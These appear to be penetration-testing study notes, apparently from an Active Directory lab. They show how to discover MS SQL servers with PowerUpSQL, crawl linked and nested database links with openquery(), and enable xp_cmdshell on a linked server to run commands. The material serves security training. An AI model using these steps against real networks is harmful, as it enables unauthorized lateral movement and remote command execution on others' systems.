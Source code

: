 MS SQL servers are generally deployed in plenty in a Windows domain

SQL Servers provide very good options for lateral movement as domain users can be mapped to database roles.

#### [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

###### Discovery (SPN Scanning) - find all mssql SPNs (default for mssql servers)
```powershell
Get-SQLInstanceDomain
```

###### Check Accessibility 
```powershell
Get-SQLConnectionTestThreaded

Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

###### Gather Information
```powershell
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

>**Note:** Review `ServiceName`, `AuthenticationMode`, `IsSysadmin` and `ActiveSessions`
#### Database Links
A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources. In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures

> **Note**: Database links work even across forest trusts. **Forest security boundaries can't even stop it**

[^1]![[Pasted image 20250521200749.png]]

###### Search for Database Links
```powershell
Get-SQLServerLink -Instance dcorp-mssql -Verbose
```
 
 Manual
```sql
select * from master..sysservers
```

###### Enumerating Database Links 
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose
```

Manual - The `Openquery()` function can be used to run queries on a linked database
```sql
select * from openquery("dcorp-sql1",'select * from master..sysservers')
```

Manual - `Openquery()` queries can be chained to access links within links (nested
links)
```sql
select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt",''select * from master..sysservers'')')
```

###### Executing Commands
> **Important:** If `rpcout` is enabled (disabled by default), `xp_cmdshell` can be enabled >

```sql
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "eu-sql"
```

[^1]: Public on A... run stored procedures on B and C due to links
